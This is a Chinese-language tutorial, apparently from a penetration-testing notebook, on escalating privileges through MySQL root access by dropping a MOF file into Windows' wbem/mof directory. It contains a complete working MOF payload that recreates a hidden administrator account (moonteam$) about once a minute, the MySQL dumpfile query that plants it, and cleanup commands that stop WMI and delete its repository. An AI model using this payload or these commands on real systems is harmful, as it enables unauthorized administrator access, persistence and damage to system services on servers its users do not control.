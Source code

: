 ## 1、mof是什么

托管对象格式 (MOF) 文件是创建和注册提供程序、事件类别和事件的简便方法。在MOF文件中创建类实例和类定义后，可以对该文件进行编译。编译MOF文件将在CIM储存库中注册所有的类定义和实例。之后提供程序、事件类别和事件信息便可由WMI 和Visual Studio Analyzer使用。 在MOF文件中创建提供程序、事件类别和事件类的实例，并且定义想要分析的自定义对象，之后可以对该文件进行编译

## 2、mof提权的原理:

mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。

其就是用又了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

## 3、条件

- windows 03及以下版本
- mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
- secure-file-priv参数不为null

## 4、modf提权过程

（1）通过msyql上传nullevt.mof文件

```vbscript
#pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user moonteam$ xxx12456 /add && net localgroup administrators moonteam$ /add\")"; 
}; 

instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
}; 
```

上传文件

```bash
select load_file("C:/Inetpub/wwwroot/www.demoasp.com/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

（2）使用脚本提权

http://www.demoasp.com/mof.php

填写好mysq的账号和密码(zkeys),文件会自动写到good目录下

![image-20210501142009645](../../acess/image-20210501142009645.png) 

```bash
net.exe user moonteam$ xxx12456 /add && net localgroup administrators moonteam$ /add
```

![image-20210501142053353](../../acess/image-20210501142053353.png) 

当我们成功把mof导出时，mof就会直接被执行，且5秒创建一次用户。

查看用户，远程连接

![image-20210501142213667](../../acess/image-20210501142213667.png)

## 5、关于Mof提权的弊端

我们提权成功后，就算被删号，mof也会在五秒内将原账号重建，那么这给我们退出测试造成了很大的困扰，所以谨慎使用。那么我们如何删掉我们的入侵账号呢？

cmd 下运行下面语句:

```bash
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

重启服务即可。